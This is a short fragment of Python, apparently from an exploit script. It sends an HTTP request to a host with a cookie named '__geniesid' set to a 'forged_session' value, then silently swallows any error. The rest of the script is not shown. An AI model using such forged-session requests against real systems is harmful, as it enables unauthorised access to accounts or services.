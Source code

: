 ```python
        requests.get(host, auth=auth, cookies=dict(
            __geniesid=forged_session
        ),  timeout=1)
    except:
        pass

```



